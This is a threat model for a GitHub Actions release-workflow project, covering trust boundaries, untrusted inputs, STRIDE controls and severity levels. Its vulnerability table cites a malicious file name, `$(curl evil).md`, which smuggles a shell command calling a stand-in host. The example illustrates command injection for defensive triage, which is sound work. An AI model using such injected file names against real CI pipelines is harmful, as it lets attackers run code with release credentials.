

# Threat model

This model says what github-workflows trusts, where untrusted input enters, and which guarantees hold at each boundary,
so a report can be classified as a vulnerability or a bug. [SECURITY.md](SECURITY.md) covers reporting; if the two
disagree, SECURITY.md wins and we fix this file.

## How github-workflows works

A release is split between jobs with different rights. Read-only jobs check news, build the changelog and release patch,
build distributions from a hash-checked lock, and render notes. A writer job in the caller's `release-auth` environment
mints a GitHub App token, applies only a patch that `validate-release-patch` accepts, and pushes the release commit and
tag. Publishing jobs reconcile PyPI's file digests and trusted-publisher attestations with the build, and create an
immutable GitHub Release whose assets they verify. Every action is SHA-pinned. Release tools come from a hash-checked
`pylock.toml`; the few helpers the actions install for themselves, such as the lock reader and the attestation verifier,
come from PyPI under a seven-day upload cutoff.

## Compared with similar tools

We drew the boundary where comparable projects in other ecosystems draw theirs. The shared rule, stated by the
[Node.js threat model](https://github.com/nodejs/node/blob/main/SECURITY.md#the-nodejs-threat-model), is that a report
which first needs a trusted element compromised is out of scope; the first triage question, as
[DOMPurify](https://github.com/cure53/DOMPurify/blob/main/SECURITY.md#what-we-consider-a-vulnerability) puts it, is what
the attacker controls.

| Project                                                                                                                                                | Language       | Where it draws the line                                                                                                              |
| ------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| [slsa-github-generator](https://github.com/slsa-framework/slsa-github-generator/security/policy)                                                       | GitHub Actions | Reusable workflows that hold signing identity; help tuning a caller's workflow is not a vulnerability.                               |
| [GitHub Actions hardening guide](https://docs.github.com/en/actions/security-for-github-actions/security-guides/security-hardening-for-github-actions) | Actions        | Untrusted input reaches scripts only through environment variables; jobs that run untrusted code get no secrets.                     |
| [GoReleaser](https://github.com/goreleaser/goreleaser/security/policy)                                                                                 | Go             | Release automation; in scope is anything that compromises the confidentiality, integrity or availability of GoReleaser or its users. |

## Trusted

An attacker who controls any of these already has what github-workflows could give them:

- The calling workflow, its trigger, environments, rulesets and the maintainer who dispatches a release.
- GitHub, the runners, PyPI and the JetBrains Marketplace.
- The SHA-pinned actions and the locked tools.

## Untrusted inputs

| Input                         | Comes from                  | What github-workflows guarantees                                                                |
| ----------------------------- | --------------------------- | ----------------------------------------------------------------------------------------------- |
| Pull request files            | Any contributor             | Read by read-only jobs only; inputs reach shells through environment variables.                 |
| Artifacts from read-only jobs | Jobs that ran project code  | The writer accepts only the changelog and fragment deletions, as regular files, from the patch. |
| Files already on PyPI         | A partial or earlier upload | Digests and attestations must match before the GitHub Release is published.                     |

## Threats and controls

| STRIDE                 | Threat                                                                      | Control                                                                                             |
| ---------------------- | --------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------- |
| Tampering              | A compromised build job smuggles a workflow change into the release commit. | `validate-release-patch` path and mode allowlist.                                                   |
| Elevation of privilege | PR code reads the release App token.                                        | The token is minted only in the writer job, which runs no project code.                             |
| Tampering              | A freshly published malicious tool version enters the release toolchain.    | Hash-checked locks resolved with a seven-day upload cooldown, and the same cutoff for helper tools. |
| Repudiation            | Release commits cannot be traced to an approved run.                        | Commits and tags are authored by the App from a recorded workflow run.                              |

## Release chain

Releases of this repository use its own workflows: the release App pushes the tag, and the GitHub Release is immutable.
Callers pin the full commit SHA of a release.

## Vulnerability or bug

| Report                                                      | Verdict       | Why                              |
| ----------------------------------------------------------- | ------------- | -------------------------------- |
| A fragment named `$(curl evil).md` runs in `validate-news`  | Vulnerability | PR data reached a shell as code. |
| A release patch that edits `.github/workflows/` is accepted | Vulnerability | Allowlist bypass.                |
| A caller runs the writer on `pull_request_target`           | Not ours      | Caller configuration.            |
| A tool update waits seven days to land                      | Expected      | The cooldown is deliberate.      |

## Severity

- **High:** pull request content runs as shell code in a job with a write token or secret, an App token reaches a step
  that runs project or third-party code, or files are published whose digests or attestations do not match the build.
- **Medium:** `validate-release-patch` accepts a path or mode outside its allowlist, or a tool skips its hash check or
  upload cutoff.
- **Low:** a job fails or misreports without crossing a boundary.

## Accepted risks

- The build job runs the project's own build backend; its outputs, not its behavior, are verified.

## Keeping this current

Revisit this model when github-workflows gains a new input source, network access, a new way to run code, or a new place
it writes to, and whenever an advisory is published.
